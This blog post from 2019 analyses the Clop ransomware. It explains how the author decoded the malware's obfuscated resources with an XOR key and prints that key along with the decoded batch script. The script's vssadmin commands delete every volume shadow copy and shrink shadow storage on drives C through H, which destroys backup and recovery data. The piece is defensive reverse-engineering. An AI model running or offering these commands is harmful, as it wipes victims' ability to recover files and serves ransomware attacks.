 +++
title = "Deobfuscating Clop ransomware resources"
description = "A deobfuscator tool for extracted resources from Clop ransomware"
tags = [
    "ransomware",
    "clop",
    "reverse-engineering"
]
date = "2019-03-31"
categories = [
    "Malware",
    "Reverse Engineering",
]
author = "Dan"
summary = true 
+++

[A colleague](https://github.com/digitalcroqueta) and I reverse-engineered the Clop ransomware binary, and observed that it contained two obfuscated resources:

* SIXSIX
* SIXSIX1

One of them is just the README file that the malware drops all over the disk, so nothing too exciting, but the other is a batch script that deletes the volume shadow copies. Granted, you could just debug it and get it to drop these files, but as a personal challenge I decided to write a deobfuscator based on my analysis of the decompiled code (I looked at it in both Ghidra and IDA Pro, the latter of which was much more helpful in this case). After spending a bit of time labeling each variable/function, this is the relevant decompiled section of code:

<script src="https://gist.github.com/danzek/a5ff18c455101e892d8717654338cae0.js"></script>

Beginning with this decompiled code, I quickly whipped up [a deobfuscator in C++](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.cpp), basically mimicking the decompiled code (with a couple minor shortcuts), which [I've made available on GitHub.](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.cpp) Shortly thereafter, I decided to write [a Python 3 version](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.py) that is much shorter (and cross-platform compatible), which is [now also on my GitHub.](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.py)

The ransomware has a harcoded "magic" string that it uses to deobfuscate the resources:

```
CHAR clopDecodeResourceSIXSIX1_MagicString[] = "Clopfdwsjkjr23LKhuifdhwui73826ygGKUJFHGdwsieflkdsj324765tZPKQWLjwNVBFHewiuhryui32JKG";
```

From there it iterates over each byte in the file and XORs it by itself and the modulus (remainder) of the current byte offset and `0x42` (decimal value `66`) as an offset/subscript into the magic string:

```
*((BYTE *)hResourceMemory + i) ^= clopDecodeResourceSIXSIX1_MagicString[i % 66];
```

And here's our prize:

```
@echo off
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
```

That's really all there is to it. The rest of the code is mostly just memory management and writing the deobfuscated data to a file.

